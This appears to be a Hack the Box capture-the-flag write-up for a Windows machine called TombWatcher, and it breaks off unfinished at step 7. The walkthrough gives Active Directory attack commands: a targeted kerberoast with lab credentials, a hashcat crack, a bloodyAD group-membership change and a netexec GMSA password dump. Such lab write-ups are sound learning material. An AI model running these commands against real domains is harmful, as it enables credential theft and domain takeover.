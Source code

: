 # TombWatcher

**Platform: Hack the Box**

**OS: Windows**

**Diffculty: Medium**


## Table of Contents
- [Key Learnings](#key-learnings)
- [Walkthrough](#walkthrough)
- [Remediation Summary](#remediation-summary)


## Key Learnings

- Familiarize myself with enumerating AD networks using Bloodhound
- Abuse GenericAll and ForceChangePassword privileges to change user passwords using *net rpc*
- Exploit GenericWrite privileges by running a targeted kerberoasting attack on vulnerable account
- Abuse DCSync privs to dump SAM and LSA hashes and compromise the Domain Controller by passing the hash
- Use Hashcat to crack .psafe3 file


## **Disclaimer: Potential spoilers below**


## Walkthrough

1. Run nmap scan
![image](https://github.com/user-attachments/assets/38c052d5-4737-4dd6-a5ab-eddd228b28da)

2. With Henry's credentials, enumerate network using Bloodhound. Found high-level path to machine
![image](https://github.com/user-attachments/assets/acff890c-ed2b-45b7-a016-f0f7f93aebef)

3. With Henry's credentials, do a targeted kerberoast attack on Alfred
`targetedKerberoast.py -v -d tombwatcher.htb -u henry -p H3nry_987TGV!`

4. We crack the hash using hashcat and we get Alfred's password: basketball
`hashcat -m 13100 hash.txt /usr/share/wordlist/rockyou.txt`
![image](https://github.com/user-attachments/assets/60b15e59-d3fe-4e3a-b44e-e668b79b5e84)

5. Add Alfred to Infrastructure group using BloodyAD
`sudo python3 /opt/bloodyAD/bloodyAD.py --host 10.129.47.3 -d TOMBWATCHER.HTB -u ALFRED -p basketball add groupMember INFRASTRUCTURE ALFRED`

6. Get GMSA password using netexec
`nxc ldap 10.129.47.3 -u alfred -p basketball --gmsa`


7. 




